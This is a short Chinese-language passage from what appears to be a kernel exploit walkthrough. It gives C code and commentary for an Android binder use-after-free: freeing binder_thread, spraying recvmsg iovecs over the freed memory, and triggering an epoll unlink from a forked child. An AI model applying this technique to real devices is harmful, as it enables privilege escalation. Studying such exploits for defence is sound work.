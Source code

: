 ![](second_binder.png)

填写我们的iovc,然后将eventpoll链接到binder_thread上面去

```c
 printf("[+] Freeing binder_thread \n");
    ioctl(m_binder_fd,BINDER_THREAD_EXIT,NULL);

    ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL);
```

接着主线程free掉binder_thread

recvmsg malloc喷射到free的binder_thread上面去，然后将我们的iovc覆盖掉free的binder_thread,接着将之前我们传入的一个字节的垃圾数据写入 m_4gb_aligned_page,然后堵塞了，进行子线程

```c
pid_t childPid = fork();

    if(childPid == 0){
    
    sleep(2);


    printf("[+] unlinking eppoll_entry->wait.entry from binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_DEL,m_binder_fd, &m_epoll_event);
    
   nBytesWritten =  write(sock_fd[1],FinalSocketData,sizeof(FinalSocketData));

    if(nBytesWritten != sizeof(FinalSocketData)){
        printf("\t [-]write failed. nBytesWritten : 0x%lx , expected : 0x%lx\n",nBytesWritten,sizeof(FinalSocketData));
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
    }
```
